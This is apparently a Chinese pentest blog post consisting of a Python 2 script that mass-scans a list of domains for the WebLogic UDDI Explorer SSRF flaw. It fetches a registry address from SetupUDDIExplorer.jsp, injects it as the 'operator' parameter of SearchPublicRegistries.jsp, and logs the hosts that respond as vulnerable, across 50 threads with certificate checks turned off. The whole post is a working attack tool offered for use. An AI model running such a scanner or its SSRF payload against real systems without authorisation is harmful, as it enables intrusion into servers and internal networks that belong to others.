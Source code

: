 +++
date = "2017-04-14T14:43:52+08:00"
description = ""
draft = false
tags = ["ssrf"]
title = "检测WebLogic是否存在SSRF"
topics = ["Python","Pentest"]

+++

### 0x00 检测脚本如下
> ```python
#!/usr/bin/env python  
# -*- coding: utf-8 -*-

import re
import sys
import Queue
import requests
import threading

from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

queue = Queue.Queue()
mutex = threading.Lock()

class Weblogic_SSRF_Check(threading.Thread):
    """docstring for Weblogic_SSRF_Check"""
    def __init__(self, queue):
        threading.Thread.__init__(self)
        self.queue = queue

    def check(self,domain,ip):
        payload = "uddiexplorer/SearchPublicRegistries.jsp?operator={ip}&rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search".format(ip=ip)
        url = domain + payload

        try:
            html = requests.get(url=url, timeout=15, verify=False).content

            m = re.search('weblogic.uddi.client.structures.exception.XML_SoapException',html)
            if m:
                mutex.acquire()
                with open('ssrf.txt','a+') as f:
                    print "%s has weblogic ssrf." % domain
                    f.write("%s has weblogic ssrf.\n" % domain)
                mutex.release()
        except Exception,e:
            pass

    def get_registry(self,domain):
        payload = 'uddiexplorer/SetupUDDIExplorer.jsp'
        url = domain + payload

        try:
            html = requests.get(url=url, timeout=15, verify=False).content
            m = re.search('<i>For example: (.*?)/uddi/uddilistener.*?</i>',html)
            if m:
                return m.group(1)
        except Exception,e:
            pass

    def run(self):
        while not self.queue.empty():
            domain = self.queue.get()
            mutex.acquire()
            print domain
            mutex.release()
            ip = self.get_registry(domain)
            self.check(domain,ip)

            self.queue.task_done()


if __name__ == '__main__':
    with open('domain.txt','r') as f:
        lines = f.readlines()
    for line in lines:
        queue.put(line.strip())

    for x in xrange(1,50):
        t = Weblogic_SSRF_Check(queue)
        t.setDaemon(True)
        t.start()
    queue.join()
```